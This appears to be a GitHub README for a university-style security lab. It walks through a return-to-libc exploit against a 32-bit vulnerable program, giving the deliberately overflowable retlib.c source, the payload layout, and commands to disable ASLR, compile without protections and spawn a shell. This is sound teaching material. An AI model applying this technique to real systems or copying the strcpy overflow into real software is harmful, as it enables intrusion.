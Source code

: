🔓 Lab2-Libc-Attack: A Return-to-Libc ExploitThis lab demonstrates a Return-to-libc exploitation technique on a 32-bit Linux system. The objective is to exploit a vulnerable program (retlib) that has a non-executable stack by reusing existing libc functions (system() and exit()) to execute /bin/sh, without injecting shellcode.OverviewThis project implements a classic stack-based buffer overflow to demonstrate a Return-to-libc (ret2libc) attack on a 32-bit Linux binary with a non-executable stack (NX bit).Key Objectives:Demonstrate a buffer overflow vulnerability.Bypass stack execution protections (NX) by reusing existing code from libc.Successfully spawn a /bin/sh shell by overwriting the return address to call system().Illustrate stack frame layout and function call conventions in 32-bit x86.Prerequisites32-bit Linux VM (lab environment)gcc with multilib support (if building 32-bit on a 64-bit host)Python 3GDB (with peda or similar is helpful)Example seed image references: https://seedsecuritylabs.org/lab_env.htmlRepository FilesFileDescriptionretlib.cThe vulnerable program with a stack-based buffer overflow.envaddr.cA helper utility to print the address of an environment variable.exploit.pyPython script to generate the badfile payload.badfileThe binary payload file generated by exploit.py.README.mdThis documentation.images/Screenshots of the exploitation process.Exploitation FlowThe attack bypasses the non-executable stack by overwriting the saved return address on the stack to point to the system() function in libc.Disable ASLRAddress Space Layout Randomization is disabled (echo 0 > /proc/sys/kernel/randomize_va_space) so that libc function addresses are stable across runs.Find Target AddressesThe MYSHELL environment variable is set: export MYSHELL=/bin/sh.The envaddr helper (or GDB) is used to find the runtime address of the "/bin/sh" string in the target process's memory.GDB is used on the retlib binary to find the runtime addresses for system() and exit() within the loaded libc.Construct PayloadThe exploit.py script builds a badfile with a specific payload structure designed to overflow the buffer in bof() and overwrite the stack frame.Payload Layout:[ A * (Offset to EBP) ] + [ Saved EBP ] + [ system_addr ] + [ exit_addr ] + [ sh_addr ]
The payload fills the buffer, restores the saved EBP (to prevent stack corruption), and hijacks the return address.Execute ExploitThe vulnerable retlib program reads badfile into its stack buffer, triggering the overflow.When bof() returns, control flow is redirected to system().system() executes using the argument on the stack (sh_addr), spawning a shell.When the shell exits, control flows to exit(), ensuring a clean program termination.How to Compile and Run1. Disable ASLR (as root)Bash# Disable ASLR for predictable addresses
echo 0 > /proc/sys/kernel/randomize_va_space
2. Compile (32-bit)Bash# Compile the vulnerable program with no stack protector and a non-executable stack
gcc -m32 -o retlib retlib.c -fno-stack-protector -z noexecstack

# Compile the helper
gcc -m32 -o envaddr envaddr.c
3. Get AddressesBash# Set environment variable
export MYSHELL=/bin/sh

# Get address of the string
./envaddr
# Address: bfffff01 (example)

# Get libc function addresses in GDB
gdb -q ./retlib
(gdb) p (void*) system
# $1 = (void *) 0xb7da4da0 <__libc_system> (example)
(gdb) p (void*) exit
# $2 = (void *) 0xb7d989d0 <__GI_exit> (example)
4. Build and Run ExploitUpdate exploit.py with the addresses found in Step 3.Bash# Generate the payload
python3 exploit.py

# Run the exploit
./retlib
# ... program output ...
whoami
# seed
Step-by-Step Demonstration1. Getting Target AddressesUsing envaddr to find the /bin/sh string and GDB to find system() and exit().2. Payload GenerationThe exploit.py script generates badfile. The hexdump shows the addresses for system, exit, and /bin/sh in little-endian format.3. Successful ExploitRunning ./retlib consumes the badfile, overflows the buffer, and successfully spawns an interactive shell, confirmed with whoami.Vulnerable Code (retlib.c)C#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str) {
    char buffer[270];
    unsigned int *framep;

    // Copy ebp into framep
    asm("movl %%ebp, %0" : "=r" (framep));

    /* print out information for experiment purpose */
    printf("Address of buffer[] inside bof(): 0x%.8x\n", (unsigned)buffer);
    printf("Frame Pointer value inside bof(): 0x%.8x\n", (unsigned)framep);

    strcpy(buffer, str); // <-- VULNERABILITY
    return 1;
}

int main(int argc, char **argv) {
    char input[1000];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    int length = fread(input, sizeof(char), 1000, badfile);

    printf("Address of input[] inside main(): 0x%x\n", (unsigned int) input);
    printf("Input size: %d\n", length);

    bof(input);

    printf("(^_^)(^_^) Returned Properly (^_^)(^_^)\n");
    return 1;
}
Summary of Results1Task: Use Return-to-libc technique to execute /bin/sh in a vulnerable 32-bit pro2gram with a non-executable stack.Result: Successful — system("/bin/sh") was called and an interactive shell was obtained (whoami returned seed).Key lessons:Use the process-specific /bin/sh address, as environment layout differs between processes.Restore the saved EBP if overwriting it to prevent stack corruption by the leave instruction.Keep ASLR disabled for predictable addresses in a controlled lab environment.AuthorPrepared by: Abdulrahman ALQunaibitLab date: October 2, 2025
